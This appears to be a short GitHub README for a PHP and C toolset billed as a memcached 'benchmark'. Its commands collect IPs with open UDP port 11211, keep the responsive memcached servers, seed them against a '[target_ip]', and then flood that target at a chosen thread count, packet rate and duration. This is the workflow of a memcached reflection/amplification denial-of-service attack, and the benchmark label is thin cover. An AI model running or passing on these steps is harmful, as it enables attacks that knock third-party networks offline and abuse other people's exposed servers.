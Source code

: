 # MemcacheChecker
MemcacheStatusRespondChecker and MemcacheChecker and setup for a Memcache based Server\/Network benchmark.

## dependencies
[php-memecahed, php-cli, libmemcached, libpthread]

# How to use it?
You need a list of IP that opened udp port 11211;

php MemcacheStatusRespondChecker.php full_list.input respond.out 10 100; 

php MemcacheChecker.php respond.out full_function.out 10 100;

We filtered IPs to full_function.out

php setup.php [target_ip] full_function.out setup.ready 1 100;

./memc [target_ip] 11211 setup.ready [threads] [packet_per_second] [time];

php setup.php [target_ip] setup.ready noting 0 100;

rm respond.out full_function.out setup.ready;
